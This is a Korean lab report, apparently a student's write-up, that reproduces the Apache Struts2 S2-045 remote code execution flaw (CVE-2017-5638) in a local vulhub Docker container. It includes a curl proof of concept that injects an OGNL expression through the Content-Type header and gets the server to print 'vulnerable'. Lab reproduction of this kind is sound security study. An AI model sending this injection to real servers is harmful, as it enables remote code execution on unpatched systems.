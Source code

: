 # CVE-2017-5638 (Apache Struts2 RCE) 실습 보고서
## 1. 개요
이번 보고서는 Apache Struts2 프레임워크의 Content-Type 필드 처리 취약점(CVE-2017-5638)을 도커를 이용해 재현하고, 실제 공격이 가능한지 실습한 내용을 정리한 것이다. 이 취약점은 서버에서 외부 입력을 제대로 검증하지 않아 원격 코드 실행(RCE)로 이어질 수 있는 심각한 문제를 일으킨다.

## 2. 실습 환경
- Host OS: Windows 11
- Docker Version: 28.0.4
- Docker Compose Version: 2.34.0

## 3. 실습 과경
3.1. 취약한 환경 구성
먼저 vulhub 레포지터리를 클론하고, Struts2 s2-045 취약 버전이 설정된 디렉터리로 이동했다. 이후 docker-compose를 이용해 컨테이너를 띄웠다.

git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-045
docker compose up -d
컨테이너가 정상적으로 구동되었고, localhost:8080로 접근할 수 있었다.

![컨테이너 띄운 화면](compose.png)

3.2. 환경 구축 결과
컨테이너가 정상적으로 올라가면서 Struts2 쇼케이스 페이지가 동작하는 것을 확인했다.

## 4. 취약점 검증 (PoC)
4.1. 공격 시도
curl 명령어를 이용해 Content-Type 헤더에 OGNL 표현식을 삽입해 요청을 보냈다.

curl -v -H "Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ctn=#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse']).(#ctn.getWriter().println('vulnerable')).(#ctn.getWriter().flush())}" http://localhost:8080/struts2-showcase/upload.action

![PoC 성공 화면](curl.png)

4.2. 결과 확인
응답 본문에 vulnerable이라는 문자열이 출력되면서, 서버에서 OGNL 표현식이 실제로 실행된 것을 확인했다. 이를 통해 취약점이 존재함을 직접 검증할 수 있었다.

## 5. 느낀점
이번 실습을 통해 도커로 취약한 환경을 빠르게 구성하고, 실제 취약점이 어떻게 악용될 수 있는지를 직접 체험할 수 있었다. Struts2처럼 널리 사용되는 프레임워크에서도 입력값 검증이 제대로 안 되면 큰 문제가 발생할 수 있다는 점을 실감했다. 실습을 진행하면서 PoC 과정이 생각보다 간단해서 보안 관리의 중요성을 다시 느꼈다.

## 6. 참고 자료
- Vulhub Struts2 S2-045 환경 (https://vulhub.org/#/environments/struts2/s2-045/)
- CVE-2017-5638 상세정보 - NVD (https://nvd.nist.gov/vuln/detail/CVE-2017-5638)


## 7. GitHub 레포 링크
https://github.com/soonnae/vulhub/tree/master/struts2/s2-045
